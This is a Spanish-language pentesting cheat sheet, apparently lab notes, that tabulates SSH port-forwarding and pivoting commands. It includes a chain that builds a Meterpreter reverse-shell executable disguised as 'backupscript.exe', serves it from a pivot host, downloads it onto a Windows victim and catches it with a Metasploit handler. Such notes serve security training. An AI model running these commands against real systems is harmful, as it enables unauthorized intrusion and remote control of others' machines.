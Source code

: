 ## Dynamic port forwarding

| Comando                                                                                                                      | Descripción                                                                                                                                                                                                                                  | Ejemplo                                                              |
| ---------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------- |
| ssh -L <puerto_escucha_atacante>:localhost:<puerto_a_escuchar_víctima> <user_ssh_víctima>@<ip_víctima>                       | Crea un túnel local: redirige un puerto de tu máquina atacante hacia un puerto en la máquina víctima. Todo lo que se conecte a <puerto_escucha_atacante> será enviado a localhost:<puerto_a_escuchar_víctima> en la víctima a través de SSH. | ssh -L 1234:localhost:3306 ubuntu@10.129.202.64                      |
| ssh -L <puerto_escucha>:localhost:<puerto_a_escuchar> -L <puerto_escucha>:localhost:<puerto_a_escuchar> ubuntu@10.129.202.64 | Crea múltiples túneles locales en una sola conexión SSH: redirige localhost:1234 de tu máquina al localhost:3306 de la víctima y localhost:8080 al localhost:80 de la víctima. Útil para exponer varios servicios remotos localmente.        | ssh -L 1234:localhost:3306 -L 8080:localhost:80 ubuntu@10.129.202.64 |
| netstat -antp \| grep \<puerto>                                                                                              | Muestra sockets de red en escucha y conexiones; filtrando por puerto puedes confirmar que tu máquina está escuchando en el puerto esperado (por ejemplo el puerto creado por ssh -L o ssh -D).                                               | netstat -antp \| grep 1234                                           |
| ssh -D \<puerto> \<user>@\<ip>                                                                                               | Levanta un **proxy SOCKS (dynamic port forward)** local: crea un SOCKS5 escuchando en `localhost:<puerto>` que encamina tráfico por la sesión SSH y permite pivotar hacia redes a las que la víctima puede acceder.                          | ssh -D 9050 ubuntu@10.129.202.64                                     |
| ssh -f -N -D \<puerto> \<user>@\<ip>                                                                                         | Igual que ssh -D pero: -f manda el proceso al background y -N evita lanzar shell interactiva. Útil para dejar el SOCKS en segundo plano.                                                                                                     | ssh -f -N -D 9050 ubuntu@10.129.202.64                               |
| proxychains4 \<comando>                                                                                                      | Envuelve una aplicación para forzar que su tráfico pase por el proxy definido en proxychains4.conf (ej. un SOCKS en 127.0.0.1:9050). Ideal para herramientas que no soportan SOCKS nativamente.                                              | proxychains4 nmap -sT -Pn -p1-1024 172.16.5.0/24                     |
## Remote/Reverse Port Forwarding with SSH

| Comando / Acción                                                                                                    | Descripción / notas clave                                                                                                                                                                                                         | Ejemplo                                                                                                                          |
| ------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------- |
| msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 LPORT=8080 -f exe -o backupscript.exe          | Genera el payload para que **la víctima** (Windows_A, la víctima) conecte al **pivot** (Ubuntu 172.16.5.129) en el puerto 8080. LHOST aquí = IP alcanzable por la víctima.                                                        |                                                                                                                                  |
| scp backupscript.exe ubuntu@\<ipPivot>:~/                                                                           | Copia el ejecutable al pivot (usa SSH).                                                                                                                                                                                           | `scp backupscript.exe ubuntu@172.16.5.129:~/`                                                                                    |
| `python3 -m http.server 8123` (en pivot)                                                                            | Levanta un servidor HTTP simple desde el pivot para que la víctima lo descargue (rápido y práctico en laboratorio).                                                                                                               | `cd /home/ubuntu && python3 -m http.server 8123`                                                                                 |
| PowerShell: `Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"`     | Descarga el payload desde Windows_A (máquina víctima)                                                                                                                                                                             | ver comando arriba                                                                                                               |
| use exploit/multi/handler + set payload windows/x64/meterpreter/reverse_https + set lhost 0.0.0.0 + set lport 8000` | Configura el handler en tu máquina atacante. Aquí `lhost` indica en qué interfaces escucha tu Metasploit. `0.0.0.0` = escuchar en todas las interfaces (útil si el reenvío/túnel entrega la conexión a localhost o a otra iface). |                                                                                                                                  |
| ssh -R \[bind_address:]remote_port:host:hostport user@server -vN                                                    | SSH Remote Port Forwarding: pide al `server` (pivot) que escuche en `remote_port` y reenvíe conexiones al destino `host:hostport` desde la máquina cliente que abrió el túnel.                                                    | Variante A (bind a IP del pivot, requiere `GatewayPorts yes`): `ssh -vN -R 172.16.5.129:8080:localhost:8000 ubuntu@172.16.5.129` |
